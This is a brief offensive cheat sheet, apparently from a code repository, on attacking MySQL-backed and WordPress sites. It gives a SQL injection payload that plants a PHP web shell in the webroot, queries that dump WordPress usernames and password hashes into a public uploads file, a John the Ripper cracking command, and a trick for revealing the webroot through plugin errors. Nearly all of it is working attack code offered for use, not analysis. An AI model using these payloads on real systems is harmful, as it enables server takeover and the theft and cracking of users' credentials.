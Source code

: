 # Web Shell Cheatsheet

## MySQL: SQLi to PHPshell

```
' union select '<?php system($_GET["cmd"]); ?>', '' into outfile '/var/www/bd.php'#
```

## Wordpress to John

```
select concat_ws(':', user_login, user_pass) from wp_users;
select concat_ws(':', user_login, user_pass) from wp_users into outfile '/var/www/https/blogblog/wp-content/uploads/creds.txt';

john hashes --wordlist=/usr/share/wordlists/rockyou.txt
```

## Reveal Wordpress Webroot

Try to cause an error in a plugin, e.g. by calling it directly in the browser (`/wp-content/plugins/`)